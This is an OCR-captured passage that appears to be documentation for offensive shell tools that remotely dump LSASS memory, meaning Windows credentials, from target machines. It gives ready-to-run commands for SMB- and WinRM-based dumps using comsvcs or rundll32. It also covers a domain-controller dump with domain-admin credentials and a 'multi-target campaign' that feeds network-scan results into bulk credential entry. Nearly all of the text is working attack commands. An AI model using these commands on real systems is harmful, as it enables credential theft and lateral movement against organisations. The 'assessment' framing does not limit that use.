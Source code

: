 
Method 5: SMB-based Execution

SMB File Operations

Bash


# SMB-based remote dump
./lsass_remote_dumper.sh -r -t 192.168.1.104 -u admin -p "password" \
  -x smb -m comsvcs

# SMB with domain authentication
./lsass_remote_dumper.sh -r -t fileserver.corp.com -u admin -p "password" \
  -d CORP -x smb -m rundll32


Advanced Remote Scenarios

Scenario 1: Domain Controller Assessment

Bash


# Discover domain controllers
./lsass_network_scanner.sh -t corp.domain.com -s full

# Add domain admin credentials
./lsass_credential_manager.sh add -t dc.corp.com -u domain_admin -P "DomainPass123" -d CORP

# Execute comprehensive dump
./lsass_remote_dumper.sh -r -t dc.corp.com -u domain_admin -p "DomainPass123" \
  -d CORP -x winrm -m all -l -f "dc_assessment_$(date +%Y%m%d)"


Scenario 2: Multi-Target Campaign

Bash


# Create target list from network scan
grep "OS: windows" ./scan_results/scan_results_*.txt | \
  awk '{print $2}' | cut -d: -f2 > campaign_targets.txt

# Batch credential addition
while read target; do
    ./lsass_credential_manager.sh add -t "$target" -u admin -P "CommonPass123"
done < campaign_targets.txt
